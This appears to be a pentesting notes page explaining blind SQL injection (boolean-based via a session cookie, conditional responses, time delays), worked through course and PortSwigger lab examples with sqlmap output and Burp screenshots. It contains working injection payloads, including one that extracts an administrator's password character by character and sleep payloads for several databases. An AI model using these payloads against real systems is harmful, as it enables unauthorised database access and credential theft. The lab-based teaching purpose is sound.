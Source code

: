 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Blind

{% hint style="info" %}
**Blind SQLi** occurs when an attacker cannot see the results of their queries directly but can infer information based on the application's behavior and responses.
{% endhint %}

## Boolean-based

{% hint style="info" %}
**Boolean-based SQLi** occurs when the attacker sends queries that return different responses based on a true/false condition, inferring information from the application's behavior.
{% endhint %}

### Headers

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time the application generates both a `POST` and a `GET` request. The former includes two parameters (`username` and `password`), but they don't appear to be vulnerable to SQLi. The latter does not contain any parameter, but we can search for other injection points.&#x20;

We are looking for points where the server might potentially process, such as the `User-Agent` and the `Cookie` headers. In this case, the `Cookie` header includes the `session` parameter and its value is certainly processed by the back-end (Figure 1).

<figure><img src="../../../.gitbook/assets/web_sqli_blindBoolean_1.png" alt=""><figcaption><p>Figure 1: Inspecting potential SQLi positions.</p></figcaption></figure>

When testing the `session` parameter, we can see that we can alter the response's behavior (`Content-Length` differences) (Figure 2), but we don't get any data within the response like we did while testing the [In Band SQLi](in-band.md#basic-workflow); this is what makes it a Blind SQLi.

<figure><img src="../../../.gitbook/assets/web_sqli_blindBoolean_2.png" alt=""><figcaption><p>Figure 2: Validating <code>sqlmap</code>'s findings.</p></figcaption></figure>

Passing the request to [`sqlmap`](sqlmap.md), it confirms that the `session` cookie is indeed injectable, therefore, we can continue the testing process as we did in the [In Band](in-band.md#basic-workflow) section.

{% code overflow="wrap" %}
```bash
$ sqlmap -r get_request.txt --batch --dbms=MySQL --level 5 --technique=B --dbms=MySQL
<SNIP>

sqlmap identified the following injection point(s) with a total of 33 HTTP(s) requests:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9499=9499-- UfuX
---
[12:37:03] [INFO] testing MySQL
[12:37:03] [INFO] confirming MySQL
[12:37:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 8.0.0
```
{% endcode %}

### Conditional

> _The example below is based on PostSwigger's_ [_Blind SQL injection with conditional responses_](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) _lab._

{% code overflow="wrap" %}
```sql
SELECT database(); -- test
SELECT substring(database(),1,1); -- t (position,length)
SELECT substring(database(),1,3); -- tes (position,length)
SELECT * FROM products WHERE name = 'Laptop' AND substring((SELECT password FROM users WHERE username='Jessamy'),1,1)>'m';
```
{% endcode %}

Burp's Active Scan identifies a potential SQLi flaw (Figure 3).

<figure><img src="../../../.gitbook/assets/web_sqli_blind_1.png" alt=""><figcaption><p>Figure 3: Identifying &#x26; validating an SQLi vulnerability.</p></figcaption></figure>

We can send the two responses to Comparer and check what is the differs between them (Figure 4).

<figure><img src="../../../.gitbook/assets/web_sqli_blind_2.png" alt=""><figcaption><p>Figure 4: Using Burp's Comparer to see what differs between the two responses.</p></figcaption></figure>

Now that we know that if our injected statement is `TRUE` we will get a `Welcome back!` message, we can use the `SUBSTRING` function and start enumerating the `administrator`'s password. We can do that efficiently by performing a Cluster bomb attack with Intruder (Figure 5).

{% code overflow="wrap" %}
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_sqli_blind_3.png" alt=""><figcaption><p>Figure 5: Performing a Cluster bomb attack with Burp's Intruder.</p></figcaption></figure>

All we need to do now is to filter out the irrevelant responses and sort them by `Payload 1` (Figure 6).

<figure><img src="../../../.gitbook/assets/web_sqli_blind_4.png" alt=""><figcaption><p>Figure 6: Enumerting the <code>administrator</code>'s password.</p></figcaption></figure>

{% hint style="info" %}
For performing the above task with a custom Python-based script, check the [Copy As Python-Requests](https://portswigger.net/bappstore/b324647b6efa4b6a8f346389730df160) Burp's extension.
{% endhint %}

## Time-based

{% hint style="info" %}
**Time-based SQLi** occurs when the attacker sends queries that introduce deliberate delays, inferring information based on the time it takes for the application to respond.
{% endhint %}

> _The example below is based on PostSwigger's_ [_Blind SQL injection with time delays_](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays) _lab._

We can start by testing the time-based payloads found on [PortSwigger's SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). using string concatenation (Figure 7).

<table><thead><tr><th width="184">Database</th><th>Payload</th></tr></thead><tbody><tr><td>Oracle</td><td><code>dbms_pipe.receive_message(('a'),10)</code></td></tr><tr><td>Microsoft</td><td><code>WAITFOR DELAY '0:0:10'</code></td></tr><tr><td>PostgreSQL</td><td><code>SELECT pg_sleep(10)</code></td></tr><tr><td>MySQL</td><td><code>SELECT SLEEP(10)</code></td></tr></tbody></table>

```sql
'+||pg_sleep(10)-- -;
```

<figure><img src="../../../.gitbook/assets/web_sqli_blind_5.png" alt=""><figcaption><p>Figure 7: Successfully injecting a time-based payload.</p></figcaption></figure>
